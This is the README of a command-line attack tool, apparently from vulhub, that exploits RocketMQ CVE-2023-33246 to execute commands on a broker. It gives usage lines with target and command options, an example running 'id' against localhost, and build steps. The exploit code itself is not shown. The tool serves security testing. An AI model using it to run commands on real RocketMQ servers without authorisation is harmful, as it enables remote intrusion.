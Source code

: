 # RocketMQ Attack Tool

A command-line tool for testing RocketMQ vulnerabilities.

## Features

- [x] Attack RocketMQ Broker (CVE-2023-33246)
- [ ] Attack RocketMQ Nameserver (CVE-2023-37582)
- [x] Easy-to-use command-line interface
- [ ] Support for both short and long command options

## Usage

Download the latest built JAR file from [Releases](https://github.com/vulhub/rocketmq-attack/releases/tag/1.0).

### Attack Broker (CVE-2023-33246)

```bash
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target <host:port> --cmd <command>

# Example:
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target 127.0.0.1:10911 --cmd "id"
```

### Attack Nameserver (CVE-2023-37582)

TODO

### Command Options

Both attack modes support the following options:

- `-t, --target`: Target address in host:port format
- `-c, --cmd`: Command to execute on the target
- `--help`: Show help message

## Building

Requires JDK 8 or later and Gradle 7.0 or later.

```bash
./gradlew shadowJar
```

The built JAR file will be located at `build/libs/rocketmq-attack-1.0-SNAPSHOT.jar`

## Disclaimer

This tool is for security research and testing purposes only. Do not use it against systems you don't own or don't have permission to test.

## References

- [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)
- [CVE-2023-37582](https://nvd.nist.gov/vuln/detail/CVE-2023-37582)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
